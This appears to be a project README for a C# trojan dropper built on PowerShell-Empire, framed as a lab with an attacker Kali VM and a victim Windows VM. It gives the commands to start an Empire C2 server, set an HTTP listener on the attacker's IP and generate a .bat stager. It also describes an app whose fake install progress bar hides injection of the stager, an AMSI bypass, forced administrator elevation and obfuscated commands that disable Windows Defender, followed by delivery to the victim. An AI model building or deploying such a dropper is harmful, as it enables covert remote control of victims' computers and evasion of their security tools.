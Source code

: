 ```
     ______          __             __    __         __
   / ____/___ ___  / /_  ___  ____/ /___/ /__  ____/ /
  / __/ / __ `__ \/ __ \/ _ \/ __  / __  / _ \/ __  / 
 / /___/ / / / / / /_/ /  __/ /_/ / /_/ /  __/ /_/ /  
/_____/_/ /_/ /_/_.___/\___/\__,_/\__,_/\___/\__,_/   

                            `````````
                         ``````.--::///+
                     ````-+sydmmmNNNNNNN
                   ``./ymmNNNNNNNNNNNNNN
                 ``-ymmNNNNNNNNNNNNNNNNN
               ```ommmmNNNNNNNNNNNNNNNNN
              ``.ydmNNNNNNNNNNNNNNNNNNNN
             ```odmmNNNNNNNNNNNNNNNNNNNN
            ```/hmmmNNNNNNNNNNNNNNNNMNNN
           ````+hmmmNNNNNNNNNNNNNNNNNMMN
          ````..ymmmNNNNNNNNNNNNNNNNNNNN
          ````:.+so+//:---.......----::-
         `````.`````````....----:///++++
        ``````.-/osy+////:::---...-dNNNN
        ````:sdyyydy`         ```:mNNNNM
       ````-hmmdhdmm:`      ``.+hNNNNNNM
       ```.odNNmdmmNNo````.:+yNNNNNNNNNN
       ```-sNNNmdh/dNNhhdNNNNNNNNNNNNNNN
       ```-hNNNmNo::mNNNNNNNNNNNNNNNNNNN
       ```-hNNmdNo--/dNNNNNNNNNNNNNNNNNN
      ````:dNmmdmd-:+NNNNNNNNNNNNNNNNNNm
      ```/hNNmmddmd+mNNNNNNNNNNNNNNds++o
     ``/dNNNNNmmmmmmmNNNNNNNNNNNmdoosydd
     `sNNNNdyydNNNNmmmmmmNNNNNmyoymNNNNN
     :NNmmmdso++dNNNNmmNNNNNdhymNNNNNNNN
     -NmdmmNNdsyohNNNNmmNNNNNNNNNNNNNNNN
     `sdhmmNNNNdyhdNNNNNNNNNNNNNNNNNNNNN
       /yhmNNmmNNNNNNNNNNNNNNNNNNNNNNmhh
        `+yhmmNNNNNNNNNNNNNNNNNNNNNNmh+:
          `./dmmmmNNNNNNNNNNNNNNNNmmd.
            `ommmmmNNNNNNNmNmNNNNmmd:
             :dmmmmNNNNNmh../oyhhhy:
             `sdmmmmNNNmmh/++-.+oh.
              `/dmmmmmmmmdo-:/ossd:
                `/ohhdmmmmmmdddddmh/
                   `-/osyhdddddhyo:
                        ``.----.`
    ______                _              ___                    __ 
   / ____/___ ___  ____  (_)_______     /   | ____ ____  ____  / /_
  / __/ / __ `__ \/ __ \/ / ___/ _ \   / /| |/ __ `/ _ \/ __ \/ __/
 / /___/ / / / / / /_/ / / /  /  __/  / ___ / /_/ /  __/ / / / /_  
/_____/_/ /_/ /_/ .___/_/_/   \___/  /_/  |_\__, /\___/_/ /_/\__/  
               /_/                         /____/                  
```

> ⚠️ **Warning:** As of today, this may not be able to bypass AMSI anymore


## Techno & Tools

- C#
- Python
- PowerShell-Empire
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

## Process

### Setup Environment

- You will need 2 VMs
    - Windows (Victim)
    - Kali Linux (Attacker)

Configure C2

#### 1. Start PowerShell-Empire

<aside>
📌 Open 2  terminal and in each one enter these command (one in each)

</aside>

```bash
sudo powershell-empire server
sudo powershell-empire client
```

#### 2. Configure Listener

```bash
uselistner http
set Name <Name>
set Host <Your IP>
set Port <Port>
execute
```

#### 3. Configure Stager

<aside>
📌 This will generate .bat file

</aside>

```bash
usestager windows/laucher_bat
set listener <listener_name>
execute
```

## Coding Application

<aside>
💡 Make Progress Bar that will make it seem, like it is installing something but in the background it will inject the stager + AMSI Bypass (The patch is only applied for one PowerShell session after that it goes back to default)

</aside>

- I added an app-manifest that requires the application to be executed as administrator, so I would already have elevated privilege
- I also added some PowerShell command to deactivate some functionalities of windows defender, to be able to execute the script (They will be obfuscated)
- Now Your question might be why you need an AMSI bypass if you will disable windows defender. The thing is when you some PowerShell command AMSI will block it’s execution because it might be a malicious command even if it is obfuscated

### Obfuscation

<aside>
📌 Follow the instruction in this repository: [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) , to install Invoke-Obfuscation on you attacking machine (Do it in a new terminal)

</aside>

You can encode any PowerShell command that you add in the Agent Process class

## Delivery

```bash
dotnet build
```

- Testing
    - Zip the program
    - Put it on the victim machine
    - unzip it
    - execute program
        - Will have to keep my listener running on my PowerShell machine
